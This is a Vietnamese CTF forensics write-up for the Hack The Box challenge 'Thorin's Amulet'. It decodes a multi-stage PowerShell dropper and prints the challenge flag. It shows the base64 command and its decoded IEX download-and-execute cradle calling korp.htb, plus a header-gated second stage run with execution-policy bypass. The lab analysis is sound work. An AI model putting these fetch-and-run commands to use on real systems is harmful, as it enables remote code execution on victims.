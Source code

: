 ```yaml
---
title: Thorin’s Amulet

---
```


# Thorin’s Amulet - powershell

## Description

Garrick and Thorin’s visit to Stonehelm took an unexpected turn when Thorin’s old rival, Bron Ironfist, challenged him to a forging contest. In the end Thorin won the contest with a beautifully engineered clockwork amulet but the victory was marred by an intrusion. Saboteurs stole the amulet and left behind some tracks. Because of that it was possible to retrieve the malicious artifact that was used to start the attack. Can you analyze it and reconstruct what happened? Note: make sure that domain korp.htb resolves to your docker instance IP and also consider the assigned port to interact with the service.

----
> written by 9r3y
## Thought process
Khi unzip file đề bài cho, ta được 1 PowerShell script:
```bash
$ unzip forensics_thorins_amulet.zip 
Archive:  forensics_thorins_amulet.zip
  inflating: artifact.ps1
```
```bash
$ cat artifact.ps1 
function qt4PO {
    if ($env:COMPUTERNAME -ne "WORKSTATION-DM-0043") {
        exit
    }
    powershell.exe -NoProfile -NonInteractive -EncodedCommand "SUVYIChOZXctT2JqZWN0IE5ldC5XZWJDbGllbnQpLkRvd25sb2FkU3RyaW5nKCJodHRwOi8va29ycC5odGIvdXBkYXRlIik="
}
qt4PO
```
Script này thực hiện khai báo 1 hàm tên "qt4PO", sau đó kiểm tra nếu profile của máy chứa nó có match với "WORKSTATION-DM-0043". Nếu match, 1 PowerShell mới sẽ được gọi ra và thực hiện đoạn command``SUVYIChOZXctT2JqZWN0IE5ldC5XZWJDbGllbnQpLkRvd25sb2FkU3RyaW5nKCJodHRwOi8va29ycC5odGIvdXBkYXRlIik=``
Ở đây, argument ``-NoProfile -NonInteractive`` đảm bảo PowerShell được gọi ra là một PowerShell mặc định và không bị tác động bởi user. 

Decode đoạn command được mã hóa base64 trên:
```bash
$ echo "SUVYIChOZXctT2JqZWN0IE5ldC5XZWJDbGllbnQpLkRvd25sb2FkU3RyaW5nKCJodHRwOi8va29ycC5odGIvdXBkYXRlIik=" | base64 -d
IEX (New-Object Net.WebClient).DownloadString("http://korp.htb/update")
```
Output thực chất là một PowerShell command thực hiện download nội dung chứa trong "http://korp.htb/update" và tiếp tục chạy nội dung đó dưới dạng PowerShell script bằng lệnh IEX.
Thay "korp.htb" bằng docker IP address & port cung cấp bởi challenge để inspect nội dung trong URL trên:
```bash
$ curl http://94.237.57.114:51856/update
function aqFVaq {
    Invoke-WebRequest -Uri "http://korp.htb/a541a" -Headers @{"X-ST4G3R-KEY"="5337d322906ff18afedc1edc191d325d"} -Method GET -OutFile a541a.ps1
    powershell.exe -exec Bypass -File "a541a.ps1"
}
aqFVaq
```
Địa chỉ tại URL trên host 1 PowerShell script khác. Script này tiếp tục gọi đến URL "http://korp.htb/a541a" và thực hiện download 1 file, lưu tên là "a541a.ps1", sau đó gọi 1 PowerShell khác để chạy file này. 
Có thể thấy để truy cập được vào URL "http://korp.htb/a541a", cần có header ``"X-ST4G3R-KEY"="5337d322906ff18afedc1edc191d325d"`` (trả về "403 Forbidden" nếu chỉ đơn thuần truy cập vào "http://korp.htb/a541a" trên browser). 
Attacker đặt ra header như vậy mục đích để tránh malware bị phát hiện thông qua inspect trên browser. Thay vào đó, nội dung của website tại URL đó đóng vai trò chính là PowerShell script để attacker thực hiện Remote code execution (RCE) khi nạn nhân fetch những nội dung đó về.
Vậy tóm lại, scenario này là 1 chuỗi RCE fetch về PowerShell scripts từ các URL 

Để curl 1 URL mà yêu cầu custom header, 
```bash
$ curl -H "X-ST4G3R-KEY: 5337d322906ff18afedc1edc191d325d" 94.237.48.147:44686/a541a
$a35 = "4854427b37683052314e5f4834355f346c573459355f3833336e5f344e5f39723334375f314e56336e3730727d"
($a35-split"(..)"|?{$_}|%{[char][convert]::ToInt16($_,16)}) -join ""
```
PowerShell script cuối cùng này gán 1 đoạn hex-encoded string vào biến $a35, sau đó tiến hành decode hex: tách string ra thành từng cặp 2 kí tự (`split"(..)"`), lọc các khoảng trống `(?{$_})`, chuyển đổi từng cặp giá trị hex sang decimal rồi sang ASCII. Kết quả nhận được là flag:
```bash
$ echo 4854427b37683052314e5f4834355f346c573459355f3833336e5f344e5f39723334375f314e56336e3730727d | xxd -r -p
HTB{7h0R1N_H45_4lW4Y5_833n_4N_9r347_1NV3n70r}
```
`HTB{7h0R1N_H45_4lW4Y5_833n_4N_9r347_1NV3n70r}`




